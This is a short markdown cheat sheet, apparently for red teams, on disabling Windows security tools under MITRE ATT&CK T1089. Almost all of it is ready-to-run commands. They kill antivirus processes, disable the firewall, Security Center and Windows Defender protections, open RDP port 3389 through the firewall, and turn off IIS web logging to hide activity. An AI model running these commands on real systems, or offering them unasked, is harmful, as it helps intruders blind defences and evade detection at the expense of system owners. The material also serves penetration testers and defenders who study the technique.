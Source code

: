 # Disabling Security Tools

## MITRE ATT&CK Technique: [T1089](https://attack.mitre.org/wiki/Technique/T1089)

## Terminate Anti-Virus Processes
`Taskkill /F /IM avprocess.exe`

## Disable Firewall
`netsh firewall set opmode disable`

## Stop Windows Security Center
`net stop wscsvc`

## Add Local Firewall Rule Exceptions : Enable a Program
`netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes`

## Add Local Firewall Rule Exceptions : Enable a Port
`netsh advfirewall firewall add rule name="Open Remote Desktop" protocol=TCP dir=in localport=3389 action=allow`

## Disable The LAN Network Connection
`netsh interface set interface name="Local Area Connection" admin=disabled`

## Stop Windows Defender

### Windows 7/8
`net stop windefend`

### Windows 10
```
PS > Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
PS > Set-MpPreference -DisableIOAVProtection $true -Verbose
PS > Set-MpPreference -DisableBehaviorMonitoring $true -Verbose
PS > Set-MpPreference -DisableIntrusionPreventionSystem $true -Verbose
PS > Set-MpPreference -DisablePrivacyMode $true -Verbose
```

## Disable Default Web Site Logging IIS 7

### Disable Default Web Site Logging IIS 7
`%windir%\system32\inetsrv\appcmd.exe set config "Default Web Site" -section:system.webServer/httpLogging /dontLog:"True" /commit:apphost`

### Restart Default Web Site IIS 7
`%windir%\system32\inetsrv\appcmd.exe stop site /site.name:"Default Web Site" && %windir%\system32\inetsrv\appcmd.exe start site /site.name:"Default Web Site"`
